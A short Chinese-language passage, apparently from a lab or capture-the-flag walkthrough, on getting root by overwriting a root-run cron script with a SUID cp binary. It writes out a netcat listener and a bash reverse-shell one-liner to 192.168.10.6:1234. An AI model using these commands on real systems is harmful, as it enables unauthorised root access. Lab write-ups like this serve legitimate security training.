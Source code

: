 ## 定时任务提权

已知，有脚本定时以`root`身份执行，并且在前面寻找SUID权限文件时，有`cp`命令，那么就可以创建一个反弹`shell`的脚本，使用`cp`覆盖原本的定时任务，就可以获得一个`root`的反弹`shell`

```shell
#先在kali开启监听
nc -lvnp 1234

#然后执行命令
cd /tmp		#这里可以创建文件
echo "/bin/bash -i >& /dev/tcp/192.168.10.6/1234 0>&1" > 1.sh
cat 1.sh	#确保反弹shell命令写入
/usr/bin/cp 1.sh /var/www/maintenance.sh	#开始使用具有SUID权限的cp进行覆盖
ls -l /var/www		#确保只有一个文件，也就是确保覆盖
cat /var/www/maintenance.sh		#再次确认，内容是否修改
```

![](pic-bravey\56.jpg)

等待一会，即可发现，获取到`root`的`shell`，这个时间大概5分钟

